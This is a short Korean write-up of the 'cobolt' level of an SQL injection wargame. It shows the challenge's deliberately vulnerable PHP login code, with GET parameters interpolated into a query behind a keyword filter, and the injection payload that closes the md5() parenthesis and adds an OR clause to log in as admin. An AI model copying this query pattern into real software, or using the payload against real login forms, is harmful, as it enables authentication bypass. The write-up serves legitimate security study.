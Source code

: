 # cobolt

## 1. Code
```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

## 2. Condition
- GET 방식으로 id와 pw를 받는다.
- 받아온 pw를 md5함수에 넣어 비교한다.
- select된 id가 'admin'이어야 한다.

## 3. Solution
변수명 | 값
---|---:
`id` | 1234
`pw` | 1234') or id=('admin


GET으로 받아온 pw값을 쿼리 안에서 괄호로 감싼다.<br>
-> 동일하게 괄호를 닫아주고 문장을 자연스럽게 연결해주면 된다.


해당 값을 보내면, query 속 조건은 다음과 같다.


**select id from prob_cobolt where id='1234' and pw=md5('1234') or id=('admin')**


`or`을 기준으로 왼쪽 `id='1234' and pw=md5('1234')`이 거짓, 오른쪽 `id=('admin')`이 참이므로<br>
참인 조건에 의거 'admin'을 불러오게 된다.
